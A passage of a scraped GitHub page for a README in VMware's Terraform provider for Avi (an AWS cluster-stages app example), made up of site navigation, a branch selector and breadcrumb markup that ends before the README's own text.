            data-hydro-click="{&quot;event_type&quot;:&quot;authentication.click&quot;,&quot;payload&quot;:{&quot;location_in_page&quot;:&quot;site header menu&quot;,&quot;repository_id&quot;:null,&quot;auth_type&quot;:&quot;SIGN_UP&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="83652c87c5265b984ba0493dbaba5649ab4736f6f8dad56fc55e796274ccf865"
            data-hydro-click="{&quot;event_type&quot;:&quot;analytics.event&quot;,&quot;payload&quot;:{&quot;category&quot;:&quot;Sign up&quot;,&quot;action&quot;:&quot;click to sign up for account&quot;,&quot;label&quot;:&quot;ref_page:/&lt;user-name&gt;/&lt;repo-name&gt;/blob/show;ref_cta:Sign up;ref_loc:header logged out&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="7c88ef247284457d1028480d008a47bd7f7239b464578c2f7093c363cbafc27c" data-analytics-event="{&quot;category&quot;:&quot;Sign up&quot;,&quot;action&quot;:&quot;click to sign up for account&quot;,&quot;label&quot;:&quot;ref_page:/&lt;user-name&gt;/&lt;repo-name&gt;/blob/show;ref_cta:Sign up;ref_loc:header logged out&quot;}"
          >
            Sign up
          </a>
      </div>
    </div>
  </div>
</header>

    </div>

  <div id="start-of-content" class="show-on-focus"></div>






    <div data-pjax-replace id="js-flash-container">


  <template class="js-flash-template">
    <div class="flash flash-full  {{ className }}">
  <div class=" px-2" >
    <button class="flash-close js-flash-close" type="button" aria-label="Dismiss this message">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-x">
    <path fill-rule="evenodd" d="M3.72 3.72a.75.75 0 011.06 0L8 6.94l3.22-3.22a.75.75 0 111.06 1.06L9.06 8l3.22 3.22a.75.75 0 11-1.06 1.06L8 9.06l-3.22 3.22a.75.75 0 01-1.06-1.06L6.94 8 3.72 4.78a.75.75 0 010-1.06z"></path>
</svg>
    </button>
    
      <div>{{ message }}</div>

  </div>
</div>
  </template>
</div>


    

  <include-fragment class="js-notification-shelf-include-fragment" data-base-src="https://github.com/notifications/beta/shelf"></include-fragment>





  <div
    class="application-main "
    data-commit-hovercards-enabled
    data-discussion-hovercards-enabled
    data-issue-and-pr-hovercards-enabled
  >
        <div itemscope itemtype="http://schema.org/SoftwareSourceCode" class="">
    <main id="js-repo-pjax-container" data-pjax-container >
      

    
    






      <include-fragment src="/orgs/vmware/survey_banner" data-test-selector="survey-banner-selector">
  </include-fragment>



  <div id="repository-container-header" class="pt-3 hide-full-screen mb-5" style="background-color: var(--color-page-header-bg);" data-pjax-replace>

      <div class="d-flex mb-3 px-3 px-md-4 px-lg-5">

        <div class="flex-auto min-width-0 width-fit mr-3">
            <h1 class=" d-flex flex-wrap flex-items-center wb-break-word f3 text-normal">
    <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-repo color-fg-muted mr-2">
    <path fill-rule="evenodd" d="M2 2.5A2.5 2.5 0 014.5 0h8.75a.75.75 0 01.75.75v12.5a.75.75 0 01-.75.75h-2.5a.75.75 0 110-1.5h1.75v-2h-8a1 1 0 00-.714 1.7.75.75 0 01-1.072 1.05A2.495 2.495 0 012 11.5v-9zm10.5-1V9h-8c-.356 0-.694.074-1 .208V2.5a1 1 0 011-1h8zM5 12.25v3.25a.25.25 0 00.4.2l1.45-1.087a.25.25 0 01.3 0L8.6 15.7a.25.25 0 00.4-.2v-3.25a.25.25 0 00-.25-.25h-3.5a.25.25 0 00-.25.25z"></path>
</svg>
  <span class="author flex-self-stretch" itemprop="author">
    <a class="url fn" rel="author" data-hovercard-type="organization" data-hovercard-url="/orgs/vmware/hovercard" href="/vmware">vmware</a>
  </span>
  <span class="mx-1 flex-self-stretch color-fg-muted">/</span>
  <strong itemprop="name" class="mr-2 flex-self-stretch">
    <a data-pjax="#repo-content-pjax-container" href="/vmware/terraform-provider-avi">terraform-provider-avi</a>
  </strong>

  <span></span><span class="Label Label--secondary v-align-middle mr-1">Public</span>
</h1>

        </div>

          <ul class="pagehead-actions flex-shrink-0 d-none d-md-inline" style="padding: 2px 0;">

  <li>
      <a href="/login?return_to=%2Fvmware%2Fterraform-provider-avi" rel="nofollow" data-hydro-click="{&quot;event_type&quot;:&quot;authentication.click&quot;,&quot;payload&quot;:{&quot;location_in_page&quot;:&quot;notification subscription menu watch&quot;,&quot;repository_id&quot;:null,&quot;auth_type&quot;:&quot;LOG_IN&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="d22348cf1e8a1279946692476c044b9d83699d6f9d5b672f7e78f30359b5fb0f" aria-label="You must be signed in to change notification settings" role="button" data-view-component="true" class="tooltipped tooltipped-s btn-sm btn">
  <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-bell">
    <path d="M8 16a2 2 0 001.985-1.75c.017-.137-.097-.25-.235-.25h-3.5c-.138 0-.252.113-.235.25A2 2 0 008 16z"></path><path fill-rule="evenodd" d="M8 1.5A3.5 3.5 0 004.5 5v2.947c0 .346-.102.683-.294.97l-1.703 2.556a.018.018 0 00-.003.01l.001.006c0 .002.002.004.004.006a.017.017 0 00.006.004l.007.001h10.964l.007-.001a.016.016 0 00.006-.004.016.016 0 00.004-.006l.001-.007a.017.017 0 00-.003-.01l-1.703-2.554a1.75 1.75 0 01-.294-.97V5A3.5 3.5 0 008 1.5zM3 5a5 5 0 0110 0v2.947c0 .05.015.098.042.139l1.703 2.555A1.518 1.518 0 0113.482 13H2.518a1.518 1.518 0 01-1.263-2.36l1.703-2.554A.25.25 0 003 7.947V5z"></path>
</svg>
  
    Notifications

  

</a>
  </li>


    <li>
          <div >
      <a href="/login?return_to=%2Fvmware%2Fterraform-provider-avi" rel="nofollow" data-hydro-click="{&quot;event_type&quot;:&quot;authentication.click&quot;,&quot;payload&quot;:{&quot;location_in_page&quot;:&quot;star button&quot;,&quot;repository_id&quot;:196468806,&quot;auth_type&quot;:&quot;LOG_IN&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="2853e2d08373a2acaea5b12f3c01115cc3a9240c20a101e8f02c44faefd3e385" aria-label="You must be signed in to star a repository" role="button" data-view-component="true" class="tooltipped tooltipped-s btn-with-count btn-sm btn">
  <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-star v-align-text-bottom mr-1">
    <path fill-rule="evenodd" d="M8 .25a.75.75 0 01.673.418l1.882 3.815 4.21.612a.75.75 0 01.416 1.279l-3.046 2.97.719 4.192a.75.75 0 01-1.088.791L8 12.347l-3.766 1.98a.75.75 0 01-1.088-.79l.72-4.194L.818 6.374a.75.75 0 01.416-1.28l4.21-.611L7.327.668A.75.75 0 018 .25zm0 2.445L6.615 5.5a.75.75 0 01-.564.41l-3.097.45 2.24 2.184a.75.75 0 01.216.664l-.528 3.084 2.769-1.456a.75.75 0 01.698 0l2.77 1.456-.53-3.084a.75.75 0 01.216-.664l2.24-2.183-3.096-.45a.75.75 0 01-.564-.41L8 2.694v.001z"></path>
</svg>
  
        <span data-view-component="true">
          Star
</span>
  

</a>      <a
        class="social-count js-social-count"
        href="/vmware/terraform-provider-avi/stargazers"
        aria-label="15 users starred this repository"
        data-singular-suffix="user starred this repository"
        data-plural-suffix="users starred this repository"
      >
        15
      </a>
  </div>

    </li>

    <li>
          <a href="/login?return_to=%2Fvmware%2Fterraform-provider-avi" rel="nofollow" data-hydro-click="{&quot;event_type&quot;:&quot;authentication.click&quot;,&quot;payload&quot;:{&quot;location_in_page&quot;:&quot;repo details fork button&quot;,&quot;repository_id&quot;:196468806,&quot;auth_type&quot;:&quot;LOG_IN&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="45454b6bf48a931d5ea6550f312928228c12b561b692c3ace062df0af1c563c0" aria-label="You must be signed in to fork a repository" role="button" data-view-component="true" class="tooltipped tooltipped-s btn-with-count btn-sm btn">
  <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-repo-forked">
    <path fill-rule="evenodd" d="M5 3.25a.75.75 0 11-1.5 0 .75.75 0 011.5 0zm0 2.122a2.25 2.25 0 10-1.5 0v.878A2.25 2.25 0 005.75 8.5h1.5v2.128a2.251 2.251 0 101.5 0V8.5h1.5a2.25 2.25 0 002.25-2.25v-.878a2.25 2.25 0 10-1.5 0v.878a.75.75 0 01-.75.75h-4.5A.75.75 0 015 6.25v-.878zm3.75 7.378a.75.75 0 11-1.5 0 .75.75 0 011.5 0zm3-8.75a.75.75 0 100-1.5.75.75 0 000 1.5z"></path>
</svg>
  
    Fork

  

</a>
  <a
    href="/vmware/terraform-provider-avi/network/members"
    class="social-count"
    aria-label="21 users forked this repository"
  >
    21
  </a>

    </li>


  <li>
    

  </li>
</ul>

      </div>

      <div id="responsive-meta-container" data-pjax-replace>
</div>


        
<nav data-pjax="#js-repo-pjax-container" aria-label="Repository" data-view-component="true" class="js-repo-nav js-sidenav-container-pjax js-responsive-underlinenav overflow-hidden UnderlineNav px-3 px-md-4 px-lg-5">

  <ul data-view-component="true" class="UnderlineNav-body list-style-none">
      <li data-view-component="true" class="d-inline-flex">
  <a id="code-tab" href="/vmware/terraform-provider-avi" data-tab-item="i0code-tab" data-selected-links="repo_source repo_downloads repo_commits repo_releases repo_tags repo_branches repo_packages repo_deployments /vmware/terraform-provider-avi" data-pjax="#repo-content-pjax-container" data-hotkey="g c" data-ga-click="Repository, Navigation click, Code tab" aria-current="page" data-view-component="true" class="UnderlineNav-item hx_underlinenav-item no-wrap js-responsive-underlinenav-item js-selected-navigation-item selected">
    
                  <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-code UnderlineNav-octicon d-none d-sm-inline">
    <path fill-rule="evenodd" d="M4.72 3.22a.75.75 0 011.06 1.06L2.06 8l3.72 3.72a.75.75 0 11-1.06 1.06L.47 8.53a.75.75 0 010-1.06l4.25-4.25zm6.56 0a.75.75 0 10-1.06 1.06L13.94 8l-3.72 3.72a.75.75 0 101.06 1.06l4.25-4.25a.75.75 0 000-1.06l-4.25-4.25z"></path>
</svg>
          <span data-content="Code">Code</span>
            <span id="code-repo-tab-count" data-pjax-replace="" title="Not available" data-view-component="true" class="Counter"></span>


    
</a></li>
      <li data-view-component="true" class="d-inline-flex">
  <a id="issues-tab" href="/vmware/terraform-provider-avi/issues" data-tab-item="i1issues-tab" data-selected-links="repo_issues repo_labels repo_milestones /vmware/terraform-provider-avi/issues" data-pjax="#repo-content-pjax-container" data-hotkey="g i" data-ga-click="Repository, Navigation click, Issues tab" data-view-component="true" class="UnderlineNav-item hx_underlinenav-item no-wrap js-responsive-underlinenav-item js-selected-navigation-item">
    
                  <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-issue-opened UnderlineNav-octicon d-none d-sm-inline">
    <path d="M8 9.5a1.5 1.5 0 100-3 1.5 1.5 0 000 3z"></path><path fill-rule="evenodd" d="M8 0a8 8 0 100 16A8 8 0 008 0zM1.5 8a6.5 6.5 0 1113 0 6.5 6.5 0 01-13 0z"></path>
</svg>
          <span data-content="Issues">Issues</span>
            <span id="issues-repo-tab-count" data-pjax-replace="" title="6" data-view-component="true" class="Counter">6</span>


    
</a></li>
      <li data-view-component="true" class="d-inline-flex">
  <a id="pull-requests-tab" href="/vmware/terraform-provider-avi/pulls" data-tab-item="i2pull-requests-tab" data-selected-links="repo_pulls checks /vmware/terraform-provider-avi/pulls" data-pjax="#repo-content-pjax-container" data-hotkey="g p" data-ga-click="Repository, Navigation click, Pull requests tab" data-view-component="true" class="UnderlineNav-item hx_underlinenav-item no-wrap js-responsive-underlinenav-item js-selected-navigation-item">
    
                  <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-git-pull-request UnderlineNav-octicon d-none d-sm-inline">
    <path fill-rule="evenodd" d="M7.177 3.073L9.573.677A.25.25 0 0110 .854v4.792a.25.25 0 01-.427.177L7.177 3.427a.25.25 0 010-.354zM3.75 2.5a.75.75 0 100 1.5.75.75 0 000-1.5zm-2.25.75a2.25 2.25 0 113 2.122v5.256a2.251 2.251 0 11-1.5 0V5.372A2.25 2.25 0 011.5 3.25zM11 2.5h-1V4h1a1 1 0 011 1v5.628a2.251 2.251 0 101.5 0V5A2.5 2.5 0 0011 2.5zm1 10.25a.75.75 0 111.5 0 .75.75 0 01-1.5 0zM3.75 12a.75.75 0 100 1.5.75.75 0 000-1.5z"></path>
</svg>
          <span data-content="Pull requests">Pull requests</span>
            <span id="pull-requests-repo-tab-count" data-pjax-replace="" title="6" data-view-component="true" class="Counter">6</span>


    
</a></li>
      <li data-view-component="true" class="d-inline-flex">
  <a id="actions-tab" href="/vmware/terraform-provider-avi/actions" data-tab-item="i3actions-tab" data-selected-links="repo_actions /vmware/terraform-provider-avi/actions" data-pjax="#repo-content-pjax-container" data-hotkey="g a" data-ga-click="Repository, Navigation click, Actions tab" data-view-component="true" class="UnderlineNav-item hx_underlinenav-item no-wrap js-responsive-underlinenav-item js-selected-navigation-item">
    
                  <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-play UnderlineNav-octicon d-none d-sm-inline">
    <path fill-rule="evenodd" d="M1.5 8a6.5 6.5 0 1113 0 6.5 6.5 0 01-13 0zM8 0a8 8 0 100 16A8 8 0 008 0zM6.379 5.227A.25.25 0 006 5.442v5.117a.25.25 0 00.379.214l4.264-2.559a.25.25 0 000-.428L6.379 5.227z"></path>
</svg>
          <span data-content="Actions">Actions</span>
            <span id="actions-repo-tab-count" data-pjax-replace="" title="Not available" data-view-component="true" class="Counter"></span>


    
</a></li>
      <li data-view-component="true" class="d-inline-flex">
  <a id="security-tab" href="/vmware/terraform-provider-avi/security" data-tab-item="i4security-tab" data-selected-links="security overview alerts policy token_scanning code_scanning /vmware/terraform-provider-avi/security" data-pjax="#repo-content-pjax-container" data-hotkey="g s" data-ga-click="Repository, Navigation click, Security tab" data-view-component="true" class="UnderlineNav-item hx_underlinenav-item no-wrap js-responsive-underlinenav-item js-selected-navigation-item">
    
                  <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-shield UnderlineNav-octicon d-none d-sm-inline">
    <path fill-rule="evenodd" d="M7.467.133a1.75 1.75 0 011.066 0l5.25 1.68A1.75 1.75 0 0115 3.48V7c0 1.566-.32 3.182-1.303 4.682-.983 1.498-2.585 2.813-5.032 3.855a1.7 1.7 0 01-1.33 0c-2.447-1.042-4.049-2.357-5.032-3.855C1.32 10.182 1 8.566 1 7V3.48a1.75 1.75 0 011.217-1.667l5.25-1.68zm.61 1.429a.25.25 0 00-.153 0l-5.25 1.68a.25.25 0 00-.174.238V7c0 1.358.275 2.666 1.057 3.86.784 1.194 2.121 2.34 4.366 3.297a.2.2 0 00.154 0c2.245-.956 3.582-2.104 4.366-3.298C13.225 9.666 13.5 8.36 13.5 7V3.48a.25.25 0 00-.174-.237l-5.25-1.68zM9 10.5a1 1 0 11-2 0 1 1 0 012 0zm-.25-5.75a.75.75 0 10-1.5 0v3a.75.75 0 001.5 0v-3z"></path>
</svg>
          <span data-content="Security">Security</span>
            <include-fragment src="/vmware/terraform-provider-avi/security/overall-count" accept="text/fragment+html"></include-fragment>

    
</a></li>
      <li data-view-component="true" class="d-inline-flex">
  <a id="insights-tab" href="/vmware/terraform-provider-avi/pulse" data-tab-item="i5insights-tab" data-selected-links="repo_graphs repo_contributors dependency_graph dependabot_updates pulse people community /vmware/terraform-provider-avi/pulse" data-pjax="#repo-content-pjax-container" data-ga-click="Repository, Navigation click, Insights tab" data-view-component="true" class="UnderlineNav-item hx_underlinenav-item no-wrap js-responsive-underlinenav-item js-selected-navigation-item">
    
                  <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-graph UnderlineNav-octicon d-none d-sm-inline">
    <path fill-rule="evenodd" d="M1.5 1.75a.75.75 0 00-1.5 0v12.5c0 .414.336.75.75.75h14.5a.75.75 0 000-1.5H1.5V1.75zm14.28 2.53a.75.75 0 00-1.06-1.06L10 7.94 7.53 5.47a.75.75 0 00-1.06 0L3.22 8.72a.75.75 0 001.06 1.06L7 7.06l2.47 2.47a.75.75 0 001.06 0l5.25-5.25z"></path>
</svg>
          <span data-content="Insights">Insights</span>
            <span id="insights-repo-tab-count" data-pjax-replace="" title="Not available" data-view-component="true" class="Counter"></span>


    
</a></li>
</ul>
    <div style="visibility:hidden;" data-view-component="true" class="UnderlineNav-actions js-responsive-underlinenav-overflow position-absolute pr-3 pr-md-4 pr-lg-5 right-0">      <details data-view-component="true" class="details-overlay details-reset position-relative">
  <summary role="button" data-view-component="true">          <div class="UnderlineNav-item mr-0 border-0">
            <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-kebab-horizontal">
    <path d="M8 9a1.5 1.5 0 100-3 1.5 1.5 0 000 3zM1.5 9a1.5 1.5 0 100-3 1.5 1.5 0 000 3zm13 0a1.5 1.5 0 100-3 1.5 1.5 0 000 3z"></path>
</svg>
            <span class="sr-only">More</span>
          </div>
</summary>
  <div data-view-component="true">          <details-menu role="menu" data-view-component="true" class="dropdown-menu dropdown-menu-sw">
  
            <ul>
                <li data-menu-item="i0code-tab" hidden>
                  <a role="menuitem" class="js-selected-navigation-item selected dropdown-item" aria-current="page" data-selected-links="repo_source repo_downloads repo_commits repo_releases repo_tags repo_branches repo_packages repo_deployments /vmware/terraform-provider-avi" href="/vmware/terraform-provider-avi">
                    Code
</a>                </li>
                <li data-menu-item="i1issues-tab" hidden>
                  <a role="menuitem" class="js-selected-navigation-item dropdown-item" data-selected-links="repo_issues repo_labels repo_milestones /vmware/terraform-provider-avi/issues" href="/vmware/terraform-provider-avi/issues">
                    Issues
</a>                </li>
                <li data-menu-item="i2pull-requests-tab" hidden>
                  <a role="menuitem" class="js-selected-navigation-item dropdown-item" data-selected-links="repo_pulls checks /vmware/terraform-provider-avi/pulls" href="/vmware/terraform-provider-avi/pulls">
                    Pull requests
</a>                </li>
                <li data-menu-item="i3actions-tab" hidden>
                  <a role="menuitem" class="js-selected-navigation-item dropdown-item" data-selected-links="repo_actions /vmware/terraform-provider-avi/actions" href="/vmware/terraform-provider-avi/actions">
                    Actions
</a>                </li>
                <li data-menu-item="i4security-tab" hidden>
                  <a role="menuitem" class="js-selected-navigation-item dropdown-item" data-selected-links="security overview alerts policy token_scanning code_scanning /vmware/terraform-provider-avi/security" href="/vmware/terraform-provider-avi/security">
                    Security
</a>                </li>
                <li data-menu-item="i5insights-tab" hidden>
                  <a role="menuitem" class="js-selected-navigation-item dropdown-item" data-selected-links="repo_graphs repo_contributors dependency_graph dependabot_updates pulse people community /vmware/terraform-provider-avi/pulse" href="/vmware/terraform-provider-avi/pulse">
                    Insights
</a>                </li>
            </ul>

</details-menu></div>
</details></div>
</nav>
  </div>



<div class="clearfix new-discussion-timeline container-xl px-3 px-md-4 px-lg-5">
  <div id="repo-content-pjax-container" class="repository-content " >

    


    
      
  
  
<div>
  


    <a class="d-none js-permalink-shortcut" data-hotkey="y" href="/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc">Permalink</a>

    <div class="d-flex flex-items-start flex-shrink-0 pb-3 flex-wrap flex-md-nowrap flex-justify-between flex-md-justify-start">
      
<div class="position-relative">
  <details class="details-reset details-overlay mr-0 mb-0 " id="branch-select-menu">
    <summary class="btn css-truncate"
            data-hotkey="w"
            title="Switch branches or tags">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-git-branch">
    <path fill-rule="evenodd" d="M11.75 2.5a.75.75 0 100 1.5.75.75 0 000-1.5zm-2.25.75a2.25 2.25 0 113 2.122V6A2.5 2.5 0 0110 8.5H6a1 1 0 00-1 1v1.128a2.251 2.251 0 11-1.5 0V5.372a2.25 2.25 0 111.5 0v1.836A2.492 2.492 0 016 7h4a1 1 0 001-1v-.628A2.25 2.25 0 019.5 3.25zM4.25 12a.75.75 0 100 1.5.75.75 0 000-1.5zM3.5 3.25a.75.75 0 111.5 0 .75.75 0 01-1.5 0z"></path>
</svg>
      <span class="css-truncate-target" data-menu-button>2d7d39e536</span>
      <span class="dropdown-caret"></span>
    </summary>

      
<div class="SelectMenu">
  <div class="SelectMenu-modal">
    <header class="SelectMenu-header">
      <span class="SelectMenu-title">Switch branches/tags</span>
      <button class="SelectMenu-closeButton" type="button" data-toggle-for="branch-select-menu"><svg aria-label="Close menu" aria-hidden="false" role="img" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-x">
    <path fill-rule="evenodd" d="M3.72 3.72a.75.75 0 011.06 0L8 6.94l3.22-3.22a.75.75 0 111.06 1.06L9.06 8l3.22 3.22a.75.75 0 11-1.06 1.06L8 9.06l-3.22 3.22a.75.75 0 01-1.06-1.06L6.94 8 3.72 4.78a.75.75 0 010-1.06z"></path>
</svg></button>
    </header>

    <input-demux data-action="tab-container-change:input-demux#storeInput tab-container-changed:input-demux#updateInput">
      <tab-container class="d-flex flex-column js-branches-tags-tabs" style="min-height: 0;">
        <div class="SelectMenu-filter">
          <input data-target="input-demux.source"
                 id="context-commitish-filter-field"
                 class="SelectMenu-input form-control"
                 aria-owns="ref-list-branches"
                 data-controls-ref-menu-id="ref-list-branches"
                 autofocus
                 autocomplete="off"
                 aria-label="Filter branches/tags"
                 placeholder="Filter branches/tags"
                 type="text"
          >
        </div>

        <div class="SelectMenu-tabs" role="tablist" data-target="input-demux.control" >
          <button class="SelectMenu-tab" type="button" role="tab" aria-selected="true">Branches</button>
          <button class="SelectMenu-tab" type="button" role="tab">Tags</button>
        </div>

        <div role="tabpanel" id="ref-list-branches" data-filter-placeholder="Filter branches/tags" class="d-flex flex-column flex-auto overflow-auto" tabindex="">
          <ref-selector
            type="branch"
            data-targets="input-demux.sinks"
            data-action="
              input-entered:ref-selector#inputEntered
              tab-selected:ref-selector#tabSelected
              focus-list:ref-selector#focusFirstListMember
            "
            query-endpoint="/vmware/terraform-provider-avi/refs"
            
            cache-key="v0:1636919292.91045"
            current-committish="MmQ3ZDM5ZTUzNmE1MGZlYTcwZmRhZDI4Mjg1NDBiNmYwNDMwMTgwNw=="
            default-branch="ZW5n"
            name-with-owner="dm13YXJlL3RlcnJhZm9ybS1wcm92aWRlci1hdmk="
            prefetch-on-mouseover
          >

            <template data-target="ref-selector.fetchFailedTemplate">
              <div class="SelectMenu-message" data-index="{{ index }}">Could not load branches</div>
            </template>

              <template data-target="ref-selector.noMatchTemplate">
    <div class="SelectMenu-message">Nothing to show</div>
</template>


            <!-- TODO: this max-height is necessary or else the branch list won't scroll.  why? -->
            <div data-target="ref-selector.listContainer" role="menu" class="SelectMenu-list " style="max-height: 330px" data-pjax="#repo-content-pjax-container">
              <div class="SelectMenu-loading pt-3 pb-0" aria-label="Menu is loading">
                <span role="status">
  <span class="sr-only">Loading</span>
  <svg style="box-sizing: content-box; color: var(--color-icon-primary);" width="32" height="32" viewBox="0 0 16 16" fill="none" data-view-component="true" class="anim-rotate">
    <circle cx="8" cy="8" r="7" stroke="currentColor" stroke-opacity="0.25" stroke-width="2" vector-effect="non-scaling-stroke" />
    <path d="M15 8a7.002 7.002 0 00-7-7" stroke="currentColor" stroke-width="2" stroke-linecap="round" vector-effect="non-scaling-stroke" />
</svg></span>

              </div>
            </div>

              <template data-target="ref-selector.itemTemplate">
  <a href="https://github.com/vmware/terraform-provider-avi/blob/{{ urlEncodedRefName }}/examples/aws/cluster_stages/6_avi_app/README.adoc" class="SelectMenu-item" role="menuitemradio" rel="nofollow" aria-checked="{{ isCurrent }}" data-index="{{ index }}">
    <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check SelectMenu-icon SelectMenu-icon--check">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    <span class="flex-1 css-truncate css-truncate-overflow {{ isFilteringClass }}">{{ refName }}</span>
    <span hidden="{{ isNotDefault }}" class="Label Label--secondary flex-self-start">default</span>
  </a>
</template>


              <footer class="SelectMenu-footer"><a href="/vmware/terraform-provider-avi/branches">View all branches</a></footer>
          </ref-selector>

        </div>

        <div role="tabpanel" id="tags-menu" data-filter-placeholder="Find a tag" class="d-flex flex-column flex-auto overflow-auto" tabindex="" hidden>
          <ref-selector
            type="tag"
            data-action="
              input-entered:ref-selector#inputEntered
              tab-selected:ref-selector#tabSelected
              focus-list:ref-selector#focusFirstListMember
            "
            data-targets="input-demux.sinks"
            query-endpoint="/vmware/terraform-provider-avi/refs"
            cache-key="v0:1636919292.91045"
            current-committish="MmQ3ZDM5ZTUzNmE1MGZlYTcwZmRhZDI4Mjg1NDBiNmYwNDMwMTgwNw=="
            default-branch="ZW5n"
            name-with-owner="dm13YXJlL3RlcnJhZm9ybS1wcm92aWRlci1hdmk="
          >

            <template data-target="ref-selector.fetchFailedTemplate">
              <div class="SelectMenu-message" data-index="{{ index }}">Could not load tags</div>
            </template>

            <template data-target="ref-selector.noMatchTemplate">
              <div class="SelectMenu-message" data-index="{{ index }}">Nothing to show</div>
            </template>

              <template data-target="ref-selector.itemTemplate">
  <a href="https://github.com/vmware/terraform-provider-avi/blob/{{ urlEncodedRefName }}/examples/aws/cluster_stages/6_avi_app/README.adoc" class="SelectMenu-item" role="menuitemradio" rel="nofollow" aria-checked="{{ isCurrent }}" data-index="{{ index }}">
    <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check SelectMenu-icon SelectMenu-icon--check">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    <span class="flex-1 css-truncate css-truncate-overflow {{ isFilteringClass }}">{{ refName }}</span>
    <span hidden="{{ isNotDefault }}" class="Label Label--secondary flex-self-start">default</span>
  </a>
</template>


            <div data-target="ref-selector.listContainer" role="menu" class="SelectMenu-list" style="max-height: 330px" data-pjax="#repo-content-pjax-container">
              <div class="SelectMenu-loading pt-3 pb-0" aria-label="Menu is loading">
                <span role="status">
  <span class="sr-only">Loading</span>
  <svg style="box-sizing: content-box; color: var(--color-icon-primary);" width="32" height="32" viewBox="0 0 16 16" fill="none" data-view-component="true" class="anim-rotate">
    <circle cx="8" cy="8" r="7" stroke="currentColor" stroke-opacity="0.25" stroke-width="2" vector-effect="non-scaling-stroke" />
    <path d="M15 8a7.002 7.002 0 00-7-7" stroke="currentColor" stroke-width="2" stroke-linecap="round" vector-effect="non-scaling-stroke" />
</svg></span>

              </div>
            </div>
              <footer class="SelectMenu-footer"><a href="/vmware/terraform-provider-avi/tags">View all tags</a></footer>
          </ref-selector>
        </div>
      </tab-container>
    </input-demux>
  </div>
</div>

  </details>

</div>

      <h2 id="blob-path" class="breadcrumb flex-auto flex-self-center min-width-0 text-normal mx-2 width-full width-md-auto flex-order-1 flex-md-order-none mt-3 mt-md-0">
        <span class="js-repo-root text-bold"><span class="js-path-segment d-inline-block wb-break-all"><a data-pjax="#repo-content-pjax-container" rel="nofollow" href="/vmware/terraform-provider-avi/tree/2d7d39e536a50fea70fdad2828540b6f04301807"><span>terraform-provider-avi</span></a></span></span><span class="separator">/</span><span class="js-path-segment d-inline-block wb-break-all"><a data-pjax="#repo-content-pjax-container" rel="nofollow" href="/vmware/terraform-provider-avi/tree/2d7d39e536a50fea70fdad2828540b6f04301807/examples"><span>examples</span></a></span><span class="separator">/</span><span class="js-path-segment d-inline-block wb-break-all"><a data-pjax="#repo-content-pjax-container" rel="nofollow" href="/vmware/terraform-provider-avi/tree/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws"><span>aws</span></a></span><span class="separator">/</span><span class="js-path-segment d-inline-block wb-break-all"><a data-pjax="#repo-content-pjax-container" rel="nofollow" href="/vmware/terraform-provider-avi/tree/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages"><span>cluster_stages</span></a></span><span class="separator">/</span><span class="js-path-segment d-inline-block wb-break-all"><a data-pjax="#repo-content-pjax-container" rel="nofollow" 